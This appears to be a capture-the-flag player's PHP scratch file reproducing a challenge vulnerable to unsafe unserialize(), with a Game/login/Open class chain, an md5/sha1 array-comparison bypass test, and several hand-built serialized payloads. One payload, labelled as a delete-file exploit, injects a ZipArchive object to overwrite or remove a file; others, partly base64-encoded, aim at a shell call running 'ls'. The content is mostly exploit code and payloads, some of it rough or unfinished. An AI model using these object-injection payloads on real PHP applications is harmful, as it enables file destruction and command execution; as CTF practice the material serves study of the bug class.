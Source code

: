 <?php
$a[]=123;
$b[]=124;
if($a!==$b){
    if(md5($a) === md5($b)) {
        if(sha1($a)=== sha1($b)){
            echo "hi";
            }
        else {
            echo "sha1";
        }
    }
        else{ 
            echo "md5";
        }
    
}
        else {
            echo "!=";
    }
    class Game{
    public  $username;
    public  $password;
    public  $choice;
    public  $register;

    public  $file;
    public  $filename;
    public  $content;
    
    public function __construct()
    {
        $this->username='user';
        $this->password='user';
    }
    
    public function __wakeup(){
        echo "wake";
    
    }
    public function __destruct() {
            echo "over";
        }

}
    $str="O:4:\"Game\":6:{s:8:\"username\";s:5:\"admin\";s:8:\"password\";s:5:\"admin\";s:8:\"register\";s:5:\"admin\";s:4:\"file\";s:4:\"Open\";s:8:\"filename\";s:5:\"index\";s:7:\"content\";s:2:\"ls\";}";  
    ###s:4:"file";s:4:"Open";s:8:"filename";s:7:"waf.txt";s:7:"content";s:3:"123";
    ###s:8:\"register\";s:5:\"admin\";
    ##file=Open
    ###filename=waf.txt
    ###content=123
    echo $str;
    echo "\n\n".base64_encode($str)."\n\n";
    echo base64_decode("Tzo0OiJHYW1lIjozOntzOjg6InVzZXJuYW1lIjtzOjU6ImFkbWluIjtzOjg6InBhc3N3b3JkIjtzOjU6ImFkbWluIjtzOjg6InJlZ2lzdGVyIjtzOjU6ImFkbWluIjt9")."\n";
    
    @unserialize($str);
    echo $Game->username;
?>



# ——V2——-

<?php

class Game{
    public  $username;
    public  $password;
    public  $choice;
    public  $register;

    public  $file;
    public  $filename;
    public  $content;
    
    public function __construct()
    {
        $this->username='user';
        $this->password='user';
    }
    
    public function __wakeup(){
        if(md5($this->register)==="21232f297a57a5a743894a0e4a801fc3"){
            $this->choice=new login($this->file,$this->filename,$this->content);
        }else{
            $this->choice = new register();
        }
    }
    public function __destruct() {
        $this->choice->checking($this->username,$this->password);
    }

}
class login{
    public $file;
    public $filename;
    public $content;

    public function __construct($file,$filename,$content)
    {
        //echo $file;
        $this->file=$file;
        //echo $this->file;
        $this->filename=$filename;
        $this->content=$content;
    }
    public function checking($username,$password)
    {
        if($username==='admin'&&$password==='admin'){
            echo $this->file." ".$this->filename." ".$this->content;
//            $this->file->open($this->filename,$this->content);
            //$this->file=new Open();
            //echo strlen("new Open();");
            $this->file->open($this->filename,$this->content);
            
            die('login success you can to open shell file!');
        }
    }
}
class register{
    public function checking($username,$password)
    {
        if($username==='admin'&&$password==='admin'){
            die('success register admin');
        }else{
            die('please register admin ');
        }
    }
}
class Open{
    function open($filename, $content){
        echo "hi\n";
        if(0){
            shell($content);
        }else{
            echo "\n".$filename.".php\n";
            echo file_get_contents($filename.".php");
        }
    }
}

删除文件exp
O:4:"Game":7:{s:8:"username";s:5:"admin";s:8:"password";s:5:"admin";s:6:"choice";O:5:"login":3:{s:4:"file";N;s:8:"filename";N;s:7:"content";N;}s:8:"register";s:5:"admin";s:4:"file";O:10:"ZipArchive":5:{s:6:"status";i:0;s:9:"statusSys";i:0;s:8:"numFiles";i:0;s:8:"filename";s:0:"";s:7:"comment";s:0:"";}s:8:"filename";s:7:"waf.txt";s:7:"content";i:8;}


    $payload="O:4:\"Game\":7:{s:8:\"username\";s:5:\"admin\";s:8:\"password\";s:5:\"admin\";s:8:\"register\";s:5:\"admin\";s:4:\"file\";s:5:\"\$Open\";s:8:\"filename\";s:5:\"shell\";s:7:\"content\";s:2:\"ls\";s:6:\"choice\";s:11:\"new Open();\"}";  
    $payload=base64_encode($payload);
    echo "\n".$payload."\n";
    #$payload="Tzo0OiJHYW1lIjo2OntzOjg6InVzZXJuYW1lIjtzOjU6ImFkbWluIjtzOjg6InBhc3N3b3JkIjtzOjU6ImFkbWluIjtzOjg6InJlZ2lzdGVyIjtzOjU6ImFkbWluIjtzOjQ6ImZpbGUiO3M6NDoiT3BlbiI7czo4OiJmaWxlbmFtZSI7czo1OiJpbmRleCI7czo3OiJjb250ZW50IjtzOjI6ImxzIjt9";
​    @unserialize(base64_decode($payload));
​    
?>
